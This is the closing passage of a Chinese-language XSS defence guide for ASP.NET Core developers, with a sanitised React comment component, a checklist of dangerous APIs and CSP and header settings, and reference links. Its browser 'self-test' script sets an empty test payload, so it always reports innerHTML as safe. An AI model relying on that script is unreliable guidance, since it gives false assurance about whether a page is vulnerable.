        {sanitizedContent}
      </div>
    );
  }

  // HTML/Markdown：使用dangerouslySetInnerHTML + 已消毒的内容
  return (
    <div
      className={`comment-content rich-content ${className || ''}`}
      dangerouslySetInnerHTML={{ __html: sanitizedContent }}
    />
  );
});

SecureComment.displayName = 'SecureComment';

export default SecureComment;
```

---

## 安全检查清单

### 开发阶段检查清单

#### XSS专项检查

- [ ] **1.1** 所有用户输入在输出前都经过了适当的编码
- [ ] **1.2** 未使用`@Html.Raw()`输出未经消毒的用户内容
- [ ] **1.3** 未使用`dangerouslySetInnerHTML`(React)、`v-html`(Vue)、`[innerHTML]`(Angular)处理不可信数据
- [ ] **1.4** JavaScript字符串拼接中没有直接插入用户输入
- [ ] **1.5** DOM操作使用了安全的API（textContent代替innerHTML）
- [ ] **1.6** URL参数在插入DOM前进行了编码
- [ ] **1.7** JSON数据在插入JavaScript前使用了`Json.Serialize()`
- [ ] **1.8** 事件处理器属性（onclick等）未被动态设置
- [ ] **1.9** `eval()`、`new Function()`、`setTimeout(string)`未被使用
- [ ] **1.10** `document.write()`、`document.writeln()`未被使用

#### CSP配置检查

- [ ] **2.1** 已配置Content-Security-Policy响应头
- [ ] **2.2** `script-src`限制了JavaScript的来源
- [ ] **2.3** `style-src`限制了CSS的来源
- [ ] **2.4** `object-src`设置为`'none'`
- [ ] **2.5** 已配置CSP违规报告端点（`report-uri`）
- [ ] **2.6** 生产环境未使用`'unsafe-inline'`和`'unsafe-eval'`
- [ ] **2.7** 使用了nonce或hash来允许特定的内联脚本

#### 响应头检查

- [ ] **3.1** `X-Content-Type-Options: nosniff` 已配置
- [ ] **3.2** `X-XSS-Protection` 已配置（虽已废弃但保持兼容性）
- [ ] **3.3** `Content-Security-Policy` 已配置且有效
- [ ] **3.4** API响应设置了正确的`Content-Type`
- [ ] **3.5** JSON响应不被浏览器当作HTML解析

### 快速自检工具

```javascript
// 浏览器控制台运行的XSS快速检测脚本
// 在目标页面上运行，检测潜在的XSS漏洞点

(function() {
    console.log('=== XSS快速检测 ===');

    // 测试1：检查全局变量污染
    var testPayload = '';
    var testDiv = document.createElement('div');
    testDiv.innerHTML = testPayload;
    document.body.appendChild(testDiv);

    setTimeout(function() {
        if (window.__xss_test === 1) {
            console.error('[高危] 检测到innerHTML可执行脚本！');
        } else {
            console.log('[通过] innerHTML安全');
        }
        testDiv.remove();
    }, 100);

    // 测试2：检查CSP配置
    if (document.securityPolicy) {
        console.log('CSP状态:', document.securityPolicy.allowsInlineScript ? '允许内联' : '禁止内联');
    } else {
        console.log('提示：无法检测CSP（浏览器不支持）');
    }

    // 测试3：列出所有可能有风险的元素
    var riskyElements = document.querySelectorAll('[onclick], [onmouseover], [onload], [onerror], [onfocus]');
    if (riskyElements.length > 0) {
        console.warn('[注意] 发现 ' + riskyElements.length + ' 个内联事件处理器');
        riskyElements.forEach(function(el) {
            console.warn('-', el.tagName, el.outerHTML.substring(0, 100));
        });
    }

    console.log('=== 检测完成 ===');
})();
```

---

## 总结

XSS攻击是Web安全中最普遍也最容易被忽视的威胁之一。作为ASP.NET Core开发者，我们需要建立**纵深防御**体系：

1. **输出编码是基础**：充分利用Razor引擎的自动HTML编码能力
2. **CSP是关键防线**：配置严格的内容安全策略，从源头限制恶意脚本执行
3. **输入验证是补充**：在接收用户输入时就过滤明显的攻击特征
4. **HTTP安全头是加固**：配合其他安全头形成完整的防护网
5. **前端框架安全意识**：了解Vue/React/Angular的安全机制和危险API
6. **DOMPurify是利器**：对于必须渲染富文本的场景，使用专业的消毒库

记住：**永远不要信任从任何地方来的数据，即使是你自己数据库里的数据也可能已被污染**。

---

## 相关文章

- [[01-OWASP-Top10安全指南]] - 了解XSS在OWASP Top 10中的位置（A03:2021 注入类漏洞）
- [[02-SQL注入攻防详解]] - 另一种重要的注入攻击及其防御
- [[04-CSRF跨站请求伪造防御]] - 保护应用免受另一种常见的Web攻击
- [[05-HTTPS与安全头部配置]] - 包括CSP在内的7大安全响应头配置指南

## 参考资源

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [CWE-79: Cross-site Scripting](https://cwe.mitre.org/data/definitions/79.html)
- [DOMPurify官方文档](https://github.com/cure53/DOMPurify)
- [Mozilla Developer Network: CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [PortSwigger XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
